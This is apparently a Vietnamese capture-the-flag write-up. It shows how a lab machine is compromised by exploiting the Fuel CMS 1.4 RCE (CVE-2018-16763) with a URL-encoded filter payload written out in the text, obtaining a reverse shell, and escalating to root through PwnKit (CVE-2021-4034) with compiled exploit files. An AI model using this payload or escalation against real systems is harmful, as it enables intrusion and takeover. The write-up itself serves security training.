 ﻿Port scan:

![enter image description here](https://imgur.com/Bi4IWz2.png)

Truy cập target machine (port 80):

![enter image description here](https://imgur.com/lAEm4rQ.png)

Ta thấy được ứng dụng web sử dụng Fuel CMS v1.4. Fuel CMS v1.4 tồn tại lỗ hổng RCE (CVE-2018-16763). Theo CVE, payload được sử dụng để RCE có dạng: `
url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+quote(cmd)+"%27%29%2b%27"
`. Khai thác RCE, mở local listener và có được reverse shell:

![enter image description here](https://imgur.com/Kt5q2Eg.png)

Có được shell, lấy user flag ở /home/www-data/flag.txt

![enter image description here](https://imgur.com/qy6bF3C.png)

Để lấy được root flag, ta cần có được quyền root. Dùng linpeas để enum (https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), phát hiện machine dính CVE-2021-4034. Về CVE-2021-4034 (https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)

![enter image description here](https://imgur.com/TwGJUnl.png)

Để exploit, tạo 2 file lần lượt là evil-so.c và exploit.c. 
Nội dung file evil-so.c:

![enter image description here](https://imgur.com/qX3LDXS.png)

Nội dung file exploit.c:

![enter image description here](https://imgur.com/GAI4NCv.png)

Compile bằng gcc: 
`gcc -shared -o evil-so -fPIC evil-so.c`
`gcc exploit.c -o exploit`

Thực thi file exploit và leo thang đặc quyền thành công:

![enter image description here](https://imgur.com/1CLlmPe.png)

Sau khi chiếm được quyền root, lấy flag ở /root/root.txt.

Happy Hacking!
